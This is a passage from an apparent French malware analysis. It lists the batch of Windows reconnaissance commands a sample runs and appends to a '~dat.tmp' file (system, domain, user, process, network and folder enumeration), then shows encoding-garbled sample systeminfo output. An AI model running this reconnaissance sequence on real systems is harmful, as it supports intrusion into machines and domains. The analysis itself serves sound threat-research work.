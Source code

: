 Le programme créé également un fichier `~dat.tmp` à l'endroit où il aura réussi à se copier pour contenir les informations de la reconnaissance.

```
systeminfo >
net view >>
net view /domain >>
tasklist /v >>
gpresult /z >>
netstat -nao >>
ipconfig /all >>
arp -a >>
net share >>
net use >>
net user >>
net user administrator >>
net user /domain >>
net user administrator /domain >>
set  >>
dir %systemdrive%\x5cUsers\x5c*.* >>
dir %userprofile%\x5cAppData\x5cRoaming\x5cMicrosoft\x5cWindows\x5cRecent\x5c*.* >>
dir %userprofile%\x5cDesktop\x5c*.* >>
tasklist /fi \x22modules eq wow64.dll\x22  >> 
tasklist /fi \x22modules ne wow64.dll\x22 >>
dir \x22%programfiles(x86)%\x22 >>
dir \x22%programfiles%\x22 >> 
dir %appdata% >>
```

Voici un exemple de ce que produisent ces commandes :

```
Nom de l'h“te:                              WINOUT
Nom du systŠme d'exploitation:              Microsoft Windows 11 Professionnel
Version du systŠme:                         10.0.22621 N/A build 22621
Fabricant du systŠme d'exploitation:        Microsoft Corporation
Configuration du systŠme d'exploitation:    Station de travail autonome
Type de build du systŠme d'exploitation:    Multiprocessor Free
Propri‚taire enregistr‚:                    <username>@outlook.fr
Organisation enregistr‚e:                   
Identificateur de produit:                  00330-52085-32356-AAOEM
Date d'installation originale:              09/05/2023, 17:06:41
Heure de d‚marrage du systŠme:              04/10/2023, 20:08:47
Fabricant du systŠme:                       Dell Inc.
ModŠle du systŠme:                          Latitude 5590
Type du systŠme:                            x64-based PC
Processeur(s):                              1 processeur(s) install‚(s).
                                            [01]ÿ: Intel64 Family 6 Model 142 Stepping 10 GenuineIntel ~1600 MHz
Version du BIOS:                            Dell Inc. 1.17.0, 02/06/2021
R‚pertoire Windows:                         C:\Windows
R‚pertoire systŠme:                         C:\Windows\system32
P‚riph‚rique d'amor‡age:                    \Device\HarddiskVolume4
Option r‚gionale du systŠme:                fr;Fran‡ais (France)
ParamŠtres r‚gionaux d'entr‚e:              fr;Fran‡ais (France)
Fuseau horaire:                             (UTC+01:00) Bruxelles, Copenhague, Madrid, Paris
M‚moire physique totale:                    16ÿ242 Mo
M‚moire physique disponible:                9ÿ771 Mo
M‚moire virtuelleÿ: taille maximale:        17ÿ266 Mo
M‚moire virtuelleÿ: disponible:             10ÿ146 Mo
M‚moire virtuelleÿ: en cours d'utilisation: 7ÿ120 Mo
Emplacements des fichiers d'‚change:        C:\pagefile.sys
Domaine:                                    WORKGROUP
Serveur d'ouverture de session:             \\WINOUT
Correctif(s):                               5 Corrections install‚es.
```